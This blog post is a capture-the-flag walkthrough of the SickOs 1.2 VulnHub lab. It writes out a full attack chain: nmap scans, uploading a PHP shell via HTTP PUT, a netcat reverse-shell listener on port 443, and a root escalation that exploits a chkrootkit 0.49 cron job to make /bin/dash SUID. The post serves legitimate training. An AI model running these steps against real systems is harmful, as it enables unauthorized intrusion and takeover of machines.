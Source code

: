 ```yaml
---
layout: post
title: "SickOs 1.2 writeup"
date: 2017-07-03 04:20:13 -0400
comments: true
categories: [penetration testing, writeups]
keywords: sickos 1.2, sickos 1.2 walkthrough, sickos 1.2, sickos 1.2 solution, sickos 1.2 writeup, sickos vulnhub
description: SickOs 1.2 writeup
---
```


Today's VM is the second machine in the SickOs series. The goal is to obtain the root flag. Target acquired!

<!-- more --> 

I did a fast scan with Masscan and discovered that ports 22 and 80 are open. Then I scanned them with Nmap:

``` 
nmap -T4 -p22,80 -sV 192.168.217.146

Starting Nmap 7.40 ( https://nmap.org ) at 2017-07-03 09:11 EDT
Nmap scan report for 192.168.217.146
Host is up (0.00030s latency).
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    lighttpd 1.4.28
```

The web server serves this pic:

{% img center /images/pentest/sickos/2-blow.jpg 'web server' 'webpage' %}

Nothing in exiftool. I bruteforced the web server, but the only discovery was an empty test directory. I initially overlooked the page source of the picture, until I noticed there is a scroll bar. So I scrolled down to find a comment:

``` 
<!-- NOTHING IN HERE ///\\\ -->>>>
```

I tried constructing a path out of the comment, but didn't get anywhere. Searching for an exploit for the lighttpd server version didn't yield anything either, although I found some for other versions.

Back to the empty directory, I found it strange that there would be an innocuous empty folder on the web server, and I thought it might hint to making it..not empty by uploading something there :-) I was at a loss on how to do that with no attack vectors, but then I remembered that uploading something on a server doesn't always require sophisticated mechanisms and PHP vulnerabilities and the like. It's just as simple as using a certain HTTP method that you don't see too often: [PUT](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/PUT)

First, I needed to verify if PUT is allowed in the first place:

``` 
nmap --script http-methods --script-args http-methods.url-path='/test' 192.168.217.146
PORT   STATE SERVICE
80/tcp open  http
| http-methods: 
|   Supported Methods: PROPFIND DELETE MKCOL PUT MOVE COPY PROPPATCH LOCK UNLOCK GET HEAD POST OPTIONS
|   Potentially risky methods: PROPFIND DELETE MKCOL PUT MOVE COPY PROPPATCH LOCK UNLOCK
|_  Path tested: /test
```

Excellent! I proceeded to upload a PHP shell with curl,but I got some weird expectation failed errors. Luckily, Nmap also has a script for PUT'ing things on a server:

``` 
nmap -p 80 192.168.217.146 --script http-put --script-args http-put.url='/test/shell.php',http-put.file='/root/Desktop/shell.php'

Starting Nmap 7.40 ( https://nmap.org ) at 2017-07-04 04:36 EDT
Nmap scan report for 192.168.217.146
Host is up (0.00031s latency).
PORT   STATE SERVICE
80/tcp open  http
|_http-put: /test/shell.php was successfully created
```

All didn't work well, though. I usually use 8888 for my reverse shells, but this time I got nothing. I tried port 80, and still no joy. It seems that only port 443 is allowed. I looked at other walkthroughs for this, so I'm not sure how you could determine it otherwise besides trial and error. But when I changed to the correct port, I got the shell:

``` 
nc -vnlp 443
listening on [any] 443 ...
connect to [192.168.217.132] from (UNKNOWN) [192.168.217.146] 49769
Linux ubuntu 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 i686 i386 GNU/Linux
 01:48:24 up  1:38,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Next, I did some enumeration. The usual culprits didn't stand out, and the permissions on this shell were pretty limited, but I did find something interesting pertaining to cron:

``` 
$ ls -al /etc/cron*
-rw-r--r-- 1 root root  722 Jun 19  2012 /etc/crontab

ls: cannot open directory /etc/cron.d: Permission denied
/etc/cron.daily:
total 72
drwxr-xr-x  2 root root  4096 Apr 12  2016 .
drwxr-xr-x 84 root root  4096 Jul  4 00:10 ..
-rw-r--r--  1 root root   102 Jun 19  2012 .placeholder
-rwxr-xr-x  1 root root 15399 Nov 15  2013 apt
-rwxr-xr-x  1 root root   314 Apr 18  2013 aptitude
-rwxr-xr-x  1 root root   502 Mar 31  2012 bsdmainutils
-rwxr-xr-x  1 root root  2032 Jun  4  2014 chkrootkit
-rwxr-xr-x  1 root root   256 Oct 14  2013 dpkg
-rwxr-xr-x  1 root root   338 Dec 20  2011 lighttpd
-rwxr-xr-x  1 root root   372 Oct  4  2011 logrotate
-rwxr-xr-x  1 root root  1365 Dec 28  2012 man-db
-rwxr-xr-x  1 root root   606 Aug 17  2011 mlocate
-rwxr-xr-x  1 root root   249 Sep 12  2012 passwd
-rwxr-xr-x  1 root root  2417 Jul  1  2011 popularity-contest
-rwxr-xr-x  1 root root  2947 Jun 19  2012 standard
```

The entry that got my attention was the chkrootkit one. chkrootkit is a tool that checks for rootkits on the system. I googled for possible exploits, and I did find [one](https://www.exploit-db.com/exploits/33899/) right away. The vulnerable version is 0.49. I checked which version is installed on the system:

``` 
$ chkrootkit -V
chkrootkit version 0.49
```

Well, well! The exploit leverages exactly the case here, vulnerable chkrootkit running as root, courtesy of the cron job. The step to compromise the system is to put an executable file named 'update' with non-root owner in /tmp

So, my idea was to give myself privileges to run an existing shell as root. I looked at what shells are installed on the system:

``` 
$ cat /etc/shells
# /etc/shells: valid login shells
/bin/sh
/bin/dash
/bin/bash
/bin/rbash
$ ls -l /bin/*sh
-rwxr-xr-x 1 root root 920788 Mar 28  2013 /bin/bash
-rwxr-xr-x 1 root root 100284 Mar 29  2012 /bin/dash
lrwxrwxrwx 1 root root      4 Mar 28  2013 /bin/rbash -> bash
lrwxrwxrwx 1 root root      4 Mar 29  2012 /bin/sh -> dash
lrwxrwxrwx 1 root root      7 Nov 16  2012 /bin/static-sh -> busybox
```

I wasted almost an hour next, because the non-interactive shell gave me grief and prevented things from working properly. I started with bash and made it suid and ran it, but it didn't work. What worked was making dash suid and also spawning a TTY shell with <code>python -c 'import pty; pty.spawn("/bin/sh")'</code>.

Inside the update file, I just made */bin/dash* suid:

``` 
$ cat update
#!/bin/bash
chmod u+s /bin/dash
```

Then I waited a minute for cron to run and got root:

``` 
$ /bin/dash
/bin/dash
# whoami
whoami
root
```

Besides the flag, in the root directory there was rule file for iptables that explained the VM's behavior. Anyway, here's the flag:

``` 
# cat 7d03aaa2bf93d80040f3f22ec6ad9d5a.txt
cat 7d03aaa2bf93d80040f3f22ec6ad9d5a.txt
WoW! If you are viewing this, You have "Sucessfully!!" completed SickOs1.2, the challenge is more focused on elimination of tool in real scenarios where tools can be blocked during an assesment and thereby fooling tester(s), gathering more information about the target using different methods, though while developing many of the tools were limited/completely blocked, to get a feel of Old School and testing it manually.

Thanks for giving this try.

@vulnhub: Thanks for hosting this UP!.
```

This machine was challenging in the way it limited you to only certain actions. Damn, the first thing I will do from now on when getting a limited shell is spawn a TTY!!!

``` 
 ________________________________________
/ Tomorrow will be cancelled due to lack \
\ of interest.                           /
 ----------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```




